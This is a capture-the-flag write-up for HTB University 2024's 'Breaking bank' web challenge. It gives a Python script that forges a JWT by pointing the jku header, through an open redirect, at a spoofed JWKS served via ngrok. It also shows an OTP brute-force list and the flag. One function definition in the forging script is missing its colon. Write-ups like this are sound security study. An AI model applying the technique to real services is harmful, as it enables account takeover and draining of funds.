 ```yaml
---
title: HTB University 2024 Binary badlands
published: 2024-12-17
description: "Writeup for web category of HTB University 2024: Binary badlands"
image: "./cover.jpeg"
tags: ["2024"]
category: Web
draft: false
---
```


## Breaking bank
![Screenshot 2024-12-17 215158](https://hackmd.io/_uploads/rJIQgfJr1x.png)

How to get flag: Steal all money in account ```financial-controller@frontier-board.htb```:
![Screenshot 2024-12-17 215407](https://hackmd.io/_uploads/rJW0gMySkx.png)
![Screenshot 2024-12-17 215641](https://hackmd.io/_uploads/rJINZGkSyx.png)

How to attack: Login in this account, then bypass otp to transper money.

Firstly, create a crendential with username: `fake@gmail.com` and password: `123`

![Screenshot 2024-12-17 220013](https://hackmd.io/_uploads/rJcbfMyS1l.png)

Time to steal money :v

In source code we have three hint:

- Hint 1: 
![Screenshot 2024-12-17 220201](https://hackmd.io/_uploads/BkBdfGkS1l.png)
- Hint 2:
![Screenshot 2024-12-17 220228](https://hackmd.io/_uploads/BJ-czGJBJg.png)
- Hint 3:
![Screenshot 2024-12-17 220252](https://hackmd.io/_uploads/S1uoMMyBkl.png)

### Hint 1:
![Screenshot 2024-12-17 220558](https://hackmd.io/_uploads/HkRPQf1r1l.png)

This is a redirect endpoint, what should i do with this...

### Hint 2:
![Screenshot 2024-12-17 221101](https://hackmd.io/_uploads/HJNsEGyBJl.png)

After asking many people,i have a conclusion that the vuln is JWKS Spoofing

Link: `https://0xdf.gitlab.io/2022/05/07/htb-unicode.html`

JWKS is JWT but use key to sign

In endpoint `/.well-known/jwks.json`, we have basic structure of jku.
![Screenshot 2024-12-17 222605](https://hackmd.io/_uploads/r1iM_Gkryx.png)

| Attribute    | Purpose                        |       
|--------------|--------------------------------|
|    `alg`     | Algorithm of jwt               |
| `   kty`     | Algorithm to create key        |
|    `use`     | Purpose of key, sig is signing |
|    `kid`     | Key identifier                 |
|    `n, e`     | Two component of RSA            |

:::important[Conclusion]
If jku change, the key of this will change.
:::

With that conclusion and this link above, i used chatgpt to create a python code to create key, make it become a web which is the same with `/.well-known/jwks.json`

:::note
Before run this code, change parameter `kid` in code with parameter `with` in endpoint `/.well-known/jwks.json`
:::

### Code exploit:

```python
import jwt
import json
import base64
from datetime import datetime
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from flask import Flask, jsonify

kid = "86147695-417b-46c7-85e7-1d71ef49562a"
redirect_url="https://8178-113-185-52-248.ngrok-free.app"
target_email="financial-controller@frontier-board.htb"

private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
public_key = private_key.public_key()


private_key_pem = private_key.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.PKCS8,
    encryption_algorithm=serialization.NoEncryption()
)
public_key_pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)


header = {
    "typ": "JWT",
    "kid": kid,
    "jku": f"http://127.0.0.1:1337/api/analytics/redirect?ref=cta-announcement&url={redirect_url}"
}

payload = {
    "email": target_email,
    "iat": int(datetime.now().timestamp())
}


jwt_token = jwt.encode(
    payload,
    private_key_pem,
    algorithm="RS256",
    headers=header
)


public_numbers = public_key.public_numbers()

def int_to_base64(num)
    return base64.urlsafe_b64encode(num.to_bytes((num.bit_length() + 7) // 8, 'big')).rstrip(b'=').decode()

key = {
    "kty": "RSA",
    "n": int_to_base64(public_numbers.n),
    "e": int_to_base64(public_numbers.e),
    "alg": "RS256",
    "use": "sig",
    "kid": kid
}
jwks = {"keys": [key]}

with open("private.pem", "w") as f:
    f.write(private_key_pem.decode())

with open("public.pem", "w") as f:
    f.write(public_key_pem.decode())

print("Generated JWT:")
print(jwt_token)

app = Flask(__name__)

@app.route('/', methods=['GET'])
def serve_jwks():
    return jsonify(jwks)

if __name__ == '__main__':
    print("Serving JWKS at http://127.0.0.1:5000/")
    app.run(host='0.0.0.0', port=5000)
```

Using ngrok with command `ngrok http 5000`
![Screenshot 2024-12-17 224527](https://hackmd.io/_uploads/HkSinMJB1g.png)

After that, run the python code, and you will get a jwt:

![Screenshot 2024-12-17 224845](https://hackmd.io/_uploads/SJcDpG1rJl.png)

In ngrok website: 

![Screenshot 2024-12-17 224949](https://hackmd.io/_uploads/Sy5s6z1H1x.png)

This is the fake key, now it time to check

![Screenshot 2024-12-17 225501](https://hackmd.io/_uploads/HkfkJ7JB1g.png)

It actually work!!!!

![Screenshot 2024-12-17 225628](https://hackmd.io/_uploads/ryt41QyB1l.png)

Refresh and

![Screenshot 2024-12-17 225735](https://hackmd.io/_uploads/Hyk9kXySyg.png)

Bro why are you too rich 

Because this web only allow friends to transper money, we need to add fake nick as friend
![Screenshot 2024-12-17 225915](https://hackmd.io/_uploads/HkJygQkHye.png)

Accept in fake nick

![Screenshot 2024-12-17 225957](https://hackmd.io/_uploads/HyKGgmkrJe.png)

Now we can transper money

![Screenshot 2024-12-17 230046](https://hackmd.io/_uploads/HyHUemySkl.png)

Enter `available balance` value to drain his money 
![Screenshot 2024-12-17 230204](https://hackmd.io/_uploads/HJy9eQkBye.png)

Oh no OTP. I need to use burp suite
![Screenshot 2024-12-17 230319](https://hackmd.io/_uploads/S1zlWQyB1g.png)

How can bypass this now? It time to use hint number three

### Bypass otp

Chatgpt is too string :v.I used chatgpt to write a python code to create a file which contain a list from 0000 to 9999 

```python=
import json

numbers = [f'{i:04}' for i in range(10000)]

with open('numbers.txt', 'w') as f:
    json.dump(numbers, f)
```
Run this code, then enter the list to `otp` parameter:

![Screenshot 2024-12-17 230751](https://hackmd.io/_uploads/S16JG7kBkl.png)

Access api/dashboard and restart

![Screenshot 2024-12-17 230855](https://hackmd.io/_uploads/ryz7M71Hkl.png)

GG

### Flag: 
`
HTB{rugg3d_pu11ed_c0nqu3r3d_d14m0nd_h4nd5_b6128c123229cf8b3e0eb8c8b27a388c}
`
